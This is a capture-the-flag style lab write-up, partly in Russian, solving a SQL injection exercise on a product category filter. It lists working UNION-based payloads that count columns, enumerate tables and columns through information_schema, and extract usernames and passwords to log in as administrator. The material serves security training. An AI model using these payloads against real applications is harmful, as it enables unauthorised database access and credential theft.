




# Lab: SQL injection attack, listing the database contents on non-Oracle databases

## Description

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the administrator user.

# Solution

## Step 1. Determine amount of columns in SELECT query

Payload: `' ORDER BY N-- -`

Так определим, что у нас 2 столбца.

## Step 2. Get information data

Надо взять названия таблиц из `information_schema.tables`

Payload: `' UNION SELECT TABLE_NAME, NULL FROM information_schema.tables-- -`

Среди прочего находим интересующую нас таблицу: `users_zpeieo`

## Step 3. Get name of columns for current table

Payload: `' UNION SELECT COLUMN_NAME, NULL FROM information_schema.columns WHERE table_name = 'users_zpeieo'-- -`

## Step 4. Get username and password

Payload: `' UNION SELECT username_hznyde, password_eijuyu FROM users_zpeieo-- -`

## Step 5. Log in as `administrator`

